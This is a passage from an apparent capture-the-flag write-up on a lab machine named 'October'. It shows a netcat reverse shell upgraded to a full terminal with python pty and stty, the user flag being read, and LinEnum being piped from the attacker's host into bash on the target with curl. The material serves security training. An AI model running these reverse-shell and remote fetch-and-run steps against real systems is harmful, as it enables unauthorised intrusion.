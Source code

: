 I'll upgrade that to a solid shell through the standard process:

1.  Use python to get a tty: `python -c 'import pty;pty.spawn("bash")'`
2.  Background shell with ctrl+z
3.  `stty raw -echo`
4.  `fg` (terminal will look funky)
5.  `reset`
6.  If asked for terminal type, enter screen.



    $ python -c 'import pty;pty.spawn("bash")'
    www-data@october:/var/www.md/cms/storage/app/media$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443   # I typed fg enter
                                         reset     # now i type reset
    reset: unknown terminal type unknown
    Terminal type? screen  # i typed screen
         
    www-data@october:/var/www.md/cms/storage/app/media$



From here, I can also grab `user.txt`:



    www-data@october:/home/harry$ cat user.txt 
    29161ca8...



## Privesc to root

### Enumeration

I'll use [LinEnum.sh](https://github.com/rebootuser/LinEnum) to run
basic enumeration across the host. I like to run with thorough tests, so
either with `-t`, or just by adding `thorough=1` to the source.

I'll service it with `python3 -m http.server 80`, and then get it from
target:



    www-data@october:/home/harry$ curl -s http://10.10.14.14/LinEnum.sh | bash

    #########################################################
    # Local Linux Enumeration & Privilege Escalation Script #
    #########################################################
    # www.rebootuser.com
    # version 0.95
